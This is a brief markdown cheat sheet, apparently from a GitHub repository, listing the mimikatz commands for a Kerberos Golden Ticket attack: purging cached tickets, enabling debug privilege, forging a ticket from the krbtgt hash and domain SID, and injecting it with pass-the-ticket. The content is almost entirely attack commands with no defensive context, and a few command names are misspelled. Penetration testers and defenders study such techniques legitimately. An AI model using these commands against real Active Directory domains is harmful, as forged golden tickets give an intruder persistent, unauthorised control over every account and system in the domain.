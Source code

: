 # Golden Ticket

```
klist purge
```

Purge all ticket

```
mimikatz# privilige::debug
Privilige '20' OK
```

Check privilege level

```
mimikatz# kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /<cipher_type(e.g. AES256)><krbtgt_hash> /ticket:<generated_ticket_name>
```

Create Golden ticket

```
debug# kerberos::ptt <ticket_name>
```

Load Golden ticket

**References:**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos
